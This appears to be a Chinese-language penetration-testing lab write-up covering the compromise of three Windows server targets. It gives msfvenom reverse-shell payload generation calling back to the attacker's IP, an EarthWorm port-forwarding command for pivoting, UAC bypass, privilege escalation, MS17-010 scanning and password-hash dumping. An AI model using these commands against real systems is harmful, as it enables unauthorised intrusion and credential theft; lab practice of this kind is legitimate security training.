



## server 2008A

在kali下首先发现目标

```
arp-scan -l
```


确定目标ip：172.20.10.148，目标有webshell，直接蚁剑链接


然后用mscvenom生成反弹shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.10.150 LPORT=4444 -f exe -o test.exe
```

生成后上传到目标机内


在攻击机内运行msfconsole，用于监听目标反弹过来的shell



在目标机上运行test.exe，就可以在攻击机上获取到shell


尝试getsystem，发现失败


尝试获取hash，提示没有权限


那么现在要做的就是提权了

先将当前session放到后台，使用uac提权，首先查看一下需要设置的参数


设置好session之后，run，重新起了一个session


这个时候再getsystem就可以直接提权了


抓一下hash


在线解一下可以得到密码



## server 2008B

这个是和2008A在同一内网下的主机，不通外网，需要进行代理

我们现在已经获取了2008A的高权限shell，内网扫描一下，加一下路由（期间kali崩了，换了parrot


然后内网常规操作，先扫一波ms17-010


由于内网靶机2008B不能互通，所以在2008A上进行端口转发

此时架构如下，说来有点绕，此时的B是2008A，C是2008B



大概需要

1. 生成目标机器后门，反连Server设置成B的IP，端口4455；
2. B上开启端口转发，将本地4455的流量转发到A的4466端口，运行EXP；
3. A上开启MSF监听本机4466端口；
4. A上成功得到来自B机器任意端口的Meterpreter Session；

首先在2008A上进行代理

```
ew_for_Win.exe -s lcx_tran -l 4455 -f 172.20.10.150 -g 4466
```


然后直接打，一打链接就断，失败，到此结束，遛了遛了


## server 2003A

账号：cs

密码：空密码

登录进去传个test.exe，msfconsole接收


尝试直接getsystem，失败


尝试提权，搜索一下可用exp

```
use post/multi/recon/local_exploit_suggester
```


随便选一个，直接提权


抓一下hash


cmd5解一下，发现都是付费的，告辞

